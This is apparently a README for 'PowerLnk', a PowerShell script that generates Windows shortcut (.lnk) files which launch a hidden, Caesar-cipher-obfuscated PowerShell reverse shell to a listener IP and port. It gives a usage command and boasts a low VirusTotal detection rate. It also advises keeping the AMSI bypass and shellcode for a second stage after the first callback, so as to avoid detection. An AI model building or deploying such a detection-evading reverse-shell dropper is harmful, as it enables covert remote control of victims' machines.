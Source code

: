 # PowerLnk
generates a .Lnk file that executes a reverse shell in powershell using a caesar cipher as obfuscation, starts minimized then quickly hides the window

# Useage
script takes two parameters -ip and -port where ip and port is the device you are listening on

./PowerLnk.ps1 -ip '192.168.1.5' -port 443

# Current detection

scored a 4/62 on virus total, intended for second stagers to be executed after initial callback due to including more to the lnk increases detections, so amsi, shellcode etc should be run after inital callback. I'll leave that up to yall to implement that for whatever engagement you're doing.


I'm working on a python server side console for c2
